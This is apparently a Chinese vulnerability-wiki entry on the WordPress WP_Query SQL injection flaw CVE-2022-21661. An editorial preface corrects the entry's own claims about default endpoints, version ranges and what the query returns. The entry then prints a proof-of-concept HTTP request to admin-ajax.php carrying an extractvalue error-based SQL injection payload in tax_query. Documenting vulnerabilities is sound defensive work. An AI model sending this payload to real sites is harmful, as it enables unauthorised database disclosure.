

## 核对与使用边界

- 明确更正：action=test 是示例自定义 AJAX 动作，不是所有 WordPress 默认自带；需要插件/主题以有问题方式把可控 tax_query 传入 WP_Query。
- 5.8.3 为该维护线修复，旧分支安全回补最早到 3.7.37；3.7.37 不是统一受影响起点，单写 &lt;5.8.3 会误含旧分支已回补版本。请求 Content-Length/空 Host 只是历史报文，group_concat schema 不等于只取当前数据库名。

核对来源：[WordPress 官方 GHSA](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：vulnerable core branch plus plugin/theme passes attacker-controlled tax_query; custom AJAXaction test not provided

- **适用与权限边界（1）**：action=test不是默认WordPress端点，缺演示插件/注册代码，不能按此认定任意WP匿名可打。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：3.7.37影响起点和&lt;5.8.3扁平版本区间需按维护分支补丁核，存在回移修复可能。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：Content-Length与正文不匹配需重算，Host空；声称获取数据库名实际group_concat所有schema。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（4）**：有官方GHSA精确来源，宜从中补分支范围和利用前提。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考链接：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
